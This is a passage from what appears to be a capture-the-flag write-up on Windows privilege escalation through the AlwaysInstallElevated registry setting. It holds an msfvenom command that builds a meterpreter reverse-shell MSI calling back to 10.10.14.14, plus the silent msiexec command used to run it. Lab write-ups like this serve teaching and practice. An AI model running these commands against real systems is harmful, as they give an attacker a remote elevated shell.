 ![attack vector](register2.png "attack vector")

- So, the value of those `2 registers are in facts 0x1`
- Now, we know we can exploit it. 

## Generate MSI files
- So, I'm gonna generate `MSI package file` with `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.14 lport=9902 -f msi > lol.msi
```

- After successfully generate the files
- Then, `upload` the file into the target machine.

### exploit/multi/handler
- Before we can execute it.
- We need to set up the `"listener"` for our meterpreter reverse shell

![setup listener](multi-handler.png "setup listener")

### Execute the MSI file
- Let's execute those files
```powershell
msiexec /quiet /qn /i lol.msi
# flags explain
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs.administrative) installation
```
